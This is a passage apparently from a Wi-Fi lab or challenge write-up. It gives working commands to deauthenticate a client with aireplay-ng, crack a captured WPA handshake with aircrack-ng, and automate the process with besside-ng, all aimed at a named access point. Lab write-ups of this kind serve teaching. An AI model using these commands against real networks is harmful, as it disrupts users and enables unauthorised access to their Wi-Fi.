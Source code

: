 And I also need to deauth client during this process:

```shell
sudo aireplay-ng wlan0mon --deauth 0 -a F0:9F:C2:AA:19:29 -c DE:B9:68:68:C9:EC
```

![](Images/Recon07_04.png)

Now, I can run `aircrack-ng` to decrypt password with around 15k data:

```shell
sudo aircrack-ng scanchall07-01.cap
```

![](Images/Recon07_05.png)

Also `besside-ng` can do this automaticaly:

```shell
besside-ng -c 1 -b F0:9F:C2:AA:19:29 wlan0mon -v
```

![](Images/Recon07_06.png)
